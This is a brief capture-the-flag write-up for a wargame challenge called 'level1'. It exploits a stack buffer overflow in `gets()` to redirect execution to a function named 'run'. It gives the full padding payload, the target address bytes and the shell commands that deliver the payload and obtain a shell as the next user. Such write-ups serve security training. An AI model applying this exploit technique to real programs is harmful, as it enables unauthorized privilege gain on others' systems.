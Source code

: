 ## level1

For this level, we use a stack buffer overflow attack on `gets()`
to modify the value on the stack of the function pointer the main will
return to.  
Padding: AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS
addresse de run: 0x08048444 -> \x44\x84\x04\x08
We write the exploit to a file using
`echo -e "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS\x44\x84\x04\x08"`  
and then run `cat /tmp/exploit /dev/stdin | ./level1`  
that gives us a shell as level2.
